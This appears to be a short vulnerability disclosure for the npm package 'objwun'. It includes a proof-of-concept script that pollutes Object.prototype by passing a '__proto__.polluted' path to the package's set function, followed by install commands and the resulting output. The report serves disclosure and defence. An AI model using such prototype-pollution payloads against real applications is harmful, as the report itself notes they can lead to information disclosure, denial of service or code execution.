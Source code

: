 # Description

`objwun` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('objwun')

console.log(`Before: ${{}.polluted}`)
set({}, '__proto__.polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i objwun # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

